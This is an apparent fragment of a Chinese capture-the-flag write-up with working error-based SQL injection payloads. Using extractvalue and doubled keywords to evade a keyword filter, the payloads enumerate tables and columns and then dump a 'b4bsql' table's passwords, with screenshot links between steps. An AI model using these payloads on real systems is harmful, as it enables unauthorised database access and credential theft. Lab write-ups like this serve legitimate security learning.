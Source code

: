 构造1 ’ uniunionon SELECSELECTT extractvalue(1, concat(0x5c,(SELECSELECTT table_name Frfromom infoorrmation_schema.tables whwhereere table_schema=database() limit 1,1))) -- +

爆出表名

![image-20210601231130669](WriteUp.assets/image-20210601231130669.png)

同理

uniunionon SELECSELECTT extractvalue(1, concat(0x5c,(SELECSELECTT GROUP_CONCAT(column_name) Frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'))) -- +

![image-20210601232219630](WriteUp.assets/image-20210601232219630.png)

1' uniunionon SELECSELECTT extractvalue(1, concat(0x5c,(seselectlect GROUP_CONCAT(passwoorrd) frfromom b4bsql))) -- +

![image-20210601233002404](WriteUp.assets/image-20210601233002404.png)
